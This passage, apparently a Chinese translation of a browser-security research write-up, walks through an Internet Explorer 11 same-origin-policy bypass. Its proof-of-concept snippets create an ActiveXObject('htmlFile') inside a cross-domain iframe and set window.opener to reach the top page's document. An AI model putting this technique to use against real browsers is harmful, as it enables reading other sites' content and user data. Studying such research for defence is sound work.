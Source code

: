 无论如何，我尝试另一个选择：从不同的域中的iframe中创建ActiveXObject。换句话说，相同的代码，但现在从不同的域iframe执行。



```
&lt;!-- Main page in https://www.cracking.com.ar renders the iframe below --&gt;
&lt;iframe src="https://www.brokenbrowser.com/demos/sop-ax-htmlfile/retrievetopdomain.html"&gt;&lt;/iframe&gt;
 
&lt;!-- iFrame code on a different domain --&gt;
&lt;script&gt;
doc = new ActiveXObject("htmlFile");
alert(doc.domain);  // Bang! Same as top!!
&lt;/script&gt;
```

令我惊讶的是，ActiveXObject由顶级域创建，而不是IFRAME。

[![](https://p2.ssl.qhimg.com/t019a02b301147fdc6b.png)](https://p2.ssl.qhimg.com/t019a02b301147fdc6b.png)

**[ 概念IE11证明 ]**



当然，检索主页的域不是一个完整的SOP绕过，但它是坚实的证据，我们正在处理一个困惑的浏览器。使用JavaScript，激情和坚持，我们会做到的。

<br>

**传递引用到顶部**



我们现在的目标是与ActiveXObject共享顶层窗口的引用，以查看它是否有权访问。如果它的document.domain与顶部相同，它应该能够访问！但还有另一个挑战：从浏览器的角度来看，这个ActiveXObject没有完全初始化。这意味着我们不能创建变量或更改任何成员的值。想象一下，一个冻结的对象，你不能添加/删除/改变任何东西。



```
doc = new ActiveXObject("htmlFile");
win = doc.Script;
win.myTop = top;      // Browser not initialized, variable is not set
win.execScript("alert(win.myTop)"); // undefined
```

在常规窗口中它应该可以工作，除非我们使用document.open初始化,否则它不和这个ActiveXObject一起工作，。问题是，如果我们初始化对象，然后IE将设置正确的域,这将摧毁我们的把戏。检查这一点，看看我的意思。



```
doc = new ActiveXObject("htmlFile");
alert(doc.domain);   // alerts the top domain (SOP bypass)
doc.open();          // Initialize the document
alert(doc.domain);   // alerts the iFrame domain (No more SOP bypass)
```

那么我们如何将顶层窗口对象传递给ActiveXObject呢？在每个窗口中都有一个非常特别的地方，在其他任何地方都是可读写的。它是什么？opener！是的，window.opener是我们的朋友，所以让我们试试！



```
doc = new ActiveXObject("htmlFile");
win = doc.Script;
win.opener = top;
win.execScript("alert(opener.document.URL)");  // Full SOP bypass
```
